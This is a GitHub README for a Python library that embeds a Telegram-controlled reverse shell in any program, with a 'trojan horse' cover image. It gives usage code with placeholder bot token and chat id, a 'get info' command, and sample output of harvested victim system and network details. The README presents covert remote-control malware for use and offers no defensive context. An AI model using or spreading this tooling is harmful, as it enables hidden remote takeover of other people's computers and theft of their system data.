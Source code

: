  <p align="center">
<img src='./cover.png' style="border: white;border-radius: 2pc;" alt='trojan horse'/>
</p>

# py tel reverse shell 
![Python](https://img.shields.io/badge/python-3670A0?style=for-the-badge&logo=python&logoColor=ffdd54) ![Telegram](https://img.shields.io/badge/Telegram-2CA5E0?style=for-the-badge&logo=telegram&logoColor=white)
> the reverse shell in your telgram!

<br>

[![GitLicense](https://gitlicense.com/badge/TorhamDev/telegram-reverse-shell-lib)](https://gitlicense.com/license/TorhamDev/gitlicense)
## What is this?
This program is a Python library that you can use to put an inverted shell connected to Telegram in any program. And control the target system from within the telegram.

# How does it work?
Currently, this **Python library** cannot be installed using pip, but it can be used this way anyway.

```python 
# sample program
from py_tel_reverse_shell import tel_shell



## get token from @BotFather in telegram
my_token = "2018473XXXXXXXXXXXXXXXXXXXXX-3M"
## get your number id from @userinfobot in telegram
my_chat_id = "19XXXXX25"


tel_shell.start_shell(bot_token=my_token,chat_id=my_chat_id)
```
and over. You can easily put an inverted shell connected to Telegram in your program.

<br>

# options
*You can send these words to the robot to get the answer.*
```bash
get info #get full info from target
```
sample output:
```text
-------- Boot Time -----------
 Boot Time: 2021/9/20 13:56:22
 -------- system info -----------
 platform: Linux
 platform-release: 5.13.16-200.fc34.x86_64
 platform-version: 1 SMP Mon Sep 13 12:39:36 UTC 2021
 architecture: x86_64
 hostname: optimus
 ip-address: 192.168.1.36
 public IP address: 31.xxx.xxx.32
 -------- CPU info -----------
 processor: x86_64
 Physical cores: 2
 Total cores: 2
 Max Frequency: 3200.00Mhz
 Min Frequency: 800.00Mhz
 Current Frequency: 895.82Mhz
 Total CPU Usage: 23.4%
 -------- Memory info -----------
 Total: 7.66GB
 Available: 4.81GB
 Used: 2.09GB
 Percentage: 37.2%
 -------- SWAP info -----------
 Total: 14.66GB
 Free: 14.40GBUsed: 266.50MBPercentage: 1.8%
 -------- Network info -----------
=== Interface: lo ===
 IP Address: 127.0.0.1
 Netmask: 255.0.0.0
 Broadcast IP: None
=== Interface: lo ===
 MAC Address: 00:00:00:00:00:00
 Netmask: None
 Broadcast MAC: None
=== Interface: enp2s0 ===
 IP Address: 192.168.1.36
 Netmask: 255.255.255.0
 Broadcast IP: 192.168.1.255
=== Interface: enp2s0 ===
 MAC Address: 1c:xx:xx:xx:a2:c8
 Netmask: None
 Broadcast MAC: ff:ff:ff:ff:ff:ff
=== Interface: virbr0 ===
 IP Address: 192.168.122.1
 Netmask: 255.255.255.0
 Broadcast IP: 192.168.122.255
=== Interface: virbr0 ===
 MAC Address: 52:xx:xx:xx:6c:93
 Netmask: None
 Broadcast MAC: ff:ff:ff:ff:ff:ff
 Total Bytes Sent: 83.69MBTotal Bytes Received: 175.42MB
```
